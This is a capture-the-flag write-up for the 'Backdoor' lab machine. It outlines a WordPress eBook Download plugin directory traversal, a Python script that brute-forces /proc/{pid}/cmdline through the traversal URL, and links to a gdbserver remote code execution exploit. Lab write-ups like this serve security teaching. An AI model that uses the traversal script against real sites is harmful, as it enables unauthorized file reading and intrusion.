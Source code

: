 # Backdoor Write-Up

Easy

Tags: 
`PHP`
`Wordpress`
`Backdoor`
`Easy`
`Internal`
`Penetration Tester Level 1`
`Directory Traversal`
`A06:2021-Vulnerable And Outdated Components`
`Public Vulnerabilities`
`Remote Code Execution`
`Enumeration`

## Intro

1. Wordpress -> Plugin -> Directory traversal
2. Brute-force `/proc/{pid}/cmdline`
3. RCE gdbserver

## Exploit

(option) Save IP address to `/etc/hosts`

```
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

### Port scanning

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Plugin

Default location for Wordpress plugins: `/wp-content/plugins`

[WordPress Plugin eBook Download 1.1 - Directory Traversal](https://www.exploit-db.com/exploits/39575)

### Brute-force `/proc/{pid}/cmdline`

```py
def scan_proc_pid_cmdline():
    with open('output.txt', 'w') as f:
        output = ''
        for pid in range(850, 860):
            url = f'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/{pid}/cmdline'    
            res = requests.get(url)
            out = res.text.replace(f'/proc/{pid}/cmdline/proc/{pid}/cmdline','').replace(f'/proc/{pid}/cmdline','').replace('<script>window.close()</script>','')
            print(f'{pid} - {out}')    
            output += out + '\n'
        f.write(output)
```

### RCE gdbserver

[GNU gdbserver 9.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50539)
